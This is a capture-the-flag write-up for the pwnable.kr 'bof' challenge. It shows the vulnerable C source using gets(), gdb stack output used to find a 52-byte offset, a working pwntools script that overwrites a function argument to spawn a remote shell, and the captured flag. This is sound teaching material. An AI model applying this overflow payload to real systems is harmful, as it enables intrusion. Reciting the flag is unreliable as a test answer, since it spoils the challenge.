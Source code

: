 # bof

## Description

bof - 5 pt

> Nana told me that buffer overflow is one of the most common software vulnerability. Is that true? <br><br>
> Download : http://pwnable.kr/bin/bof
> Download : http://pwnable.kr/bin/bof.c <br><br>
> Running at : nc pwnable.kr 9000

## Solution

### Background

#### Buffer Overflow

A buffer overflow occurs when a program attempts to write more data to a buffer than it can hold. This can cause the program to crash, or it can be used to overwrite data in the program's memory.


### Exploit

This time, we are given two files: `bof` - the binary file, and `bof.c` - the source code. Let's take a look at the source code:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

The program starts by calling the function `func` with `0xdeadbeef` as the `key` argument. The function `func` then creates a buffer of size 32, and calls ```gets``` to read input from the user. ```gets``` is a dangerous function because it does not check the length of the input, so it can cause a buffer overflow.

Then, the program compares the value of the `key` to `0xcafebabe`. If the two are equal, it will call `system(/bin/sh)`. This means that we need to overwrite the value of `key` with `0xcafebabe` in order to get a shell.

Using ```gdb``` to debug the program, and giving `AAAA` as input, we can see the stack:

```
(gdb) x/100x $esp

0xffffd0f0:	0xffffd10c	0x00000020	0x00000000	0xffffd2e4
0xffffd100:	0x00000000	0x00000000	0x01000000	0x41414141
0xffffd110:	0xf7fc4500	0x00000000	0xf7d904be	0xf7f9e054
0xffffd120:	0xf7fbe4a0	0xf7fd6f10	0xf7d904be	0x75f7b900
0xffffd130:	0xffffd170	0xf7fbe66c	0xffffd158	0x5655569f
0xffffd140:	0xdeadbeef	0x00000000	0xf7f9e000	0xf7e9694b
```

The adress of `key` is `0xffffd140`, and the adress of `overflowme` is `0xffffd10c`. We can see that the distance between them is `52` bytes. This means that we need to write `52` bytes of junk data, followed by `0xcafebabe` in order to overwrite the value of `key`.

```python
from pwn import *

con = remote('pwnable.kr', 9000)

payload = b'\x61' * 52 + p32(0xcafebabe)

con.sendline(payload)

con.interactive()
```

Running the script, we get a shell:

```
$ python3 exploit.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ cat flag
daddy, I just pwned a buFFer :)
```